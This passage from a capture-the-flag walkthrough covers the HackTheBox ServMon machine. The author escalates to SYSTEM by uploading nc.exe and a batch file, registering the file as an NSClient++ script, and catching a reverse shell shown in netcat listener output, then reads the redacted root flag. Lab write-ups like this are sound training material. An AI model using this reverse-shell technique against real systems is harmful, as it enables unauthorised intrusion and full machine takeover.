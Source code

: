 I made a file named pi.bat in my kali with the lines suggested from the exploit steps and uploaded it alongside with nc.exe in ``C:\Temp\`` of the machine.

- Add script foobar to call evil.bat and save settings

Next thing , I am going to add a new script in the application named ``whatever u want`` which calls the script I saved in `C:\Temp`

![evil](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/servmon-walkthrough/evil-servmon.png)

### root-shell

As seen above I named my newly added script as `command` and now I can send this command to the console and expect a reverse shell as system.

```
root@kali:~# nc -lvnp 9001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.184.
Ncat: Connection from 10.10.10.184:52351.
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system
```

After executing the command to the web console , I succesfully got a shell as ``nt authority\system`` as expected.
With that we came to the final sentence for this blog and I am able to grab the root flag by navigating to administrator desktop :

```
C:\Program Files\NSClient++>type C:\Users\Administrator\Desktop\root.txt
*redacted flag*
```
